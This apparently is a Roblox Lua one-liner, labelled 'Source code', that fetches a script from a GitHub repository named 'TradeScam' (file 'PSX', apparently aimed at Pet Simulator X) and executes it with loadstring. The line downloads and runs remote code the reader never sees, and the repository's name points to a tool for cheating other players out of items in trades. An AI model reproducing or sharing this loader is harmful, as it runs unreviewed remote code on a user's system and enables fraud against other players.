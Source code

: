 loadstring(game:HttpGet("https://raw.githubusercontent.com/OfficialPS99Developer/TradeScam/refs/heads/main/PSX"))()
